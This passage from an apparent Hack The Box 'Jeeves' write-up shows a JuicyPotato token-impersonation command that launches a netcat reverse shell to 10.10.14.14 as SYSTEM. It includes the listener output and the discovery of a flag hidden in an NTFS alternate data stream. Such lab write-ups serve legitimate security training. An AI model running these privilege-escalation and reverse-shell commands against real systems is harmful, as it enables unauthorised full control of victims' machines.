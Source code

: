 ```powershell
```

Get SYSTEM reverse shell:

```bash
C:\users\kohsuke\downloads>.\JP.exe -l 9001 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -a "/c C:\users\kohsuke\downloads\nc.exe 10.10.14.14 443 -e cmd.exe" -p cmd.exe
.\JP.exe -l 9001 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -a "/c C:\users\kohsuke\downloads\nc.exe 10.10.14.14 443 -e cmd.exe" -p cmd.exe
Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 9001
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Catch the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.63] 50409
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname
whoami && hostname
nt authority\system
Jeeves

C:\Users\Administrator\Desktop>dir hm.txt
dir hm.txt
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

12/24/2017  03:51 AM                36 hm.txt
               1 File(s)             36 bytes
               0 Dir(s)   7,415,410,688 bytes free

C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```

### Alternate data stream

[Introduction to Alternate Data Streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

```powershell
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
```